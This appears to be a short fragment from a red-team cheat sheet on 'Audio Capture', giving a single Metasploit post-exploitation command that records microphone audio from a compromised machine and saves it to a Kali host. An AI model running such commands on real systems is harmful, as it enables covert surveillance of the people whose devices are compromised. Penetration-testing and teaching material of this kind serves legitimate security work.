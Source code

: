 # Audio Capture

Capture audio data from microphone, webcams (devices) and voice and video calls (applications)

### 1) Metasploit

    run sound_recorder -i 300 -l /home/kali
